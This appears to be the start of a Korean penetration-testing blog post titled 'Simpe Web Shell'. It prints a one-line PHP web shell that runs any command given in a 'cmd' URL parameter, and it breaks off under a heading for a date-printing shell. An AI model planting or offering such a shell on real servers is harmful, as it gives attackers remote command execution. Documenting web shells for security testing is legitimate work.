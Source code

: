 ```yaml
---
title: Simpe Web Shell
date: YYYY-MM-DD HH:MM:SS +09:00
categories: [모의해킹]
tags: [WEB]
---
```


### 웹쉘 테스트


### 한줄 웹쉘

```php
<?php echo shell_exec($_GET['cmd']); ?>```

### 날짜 출력 웹쉘
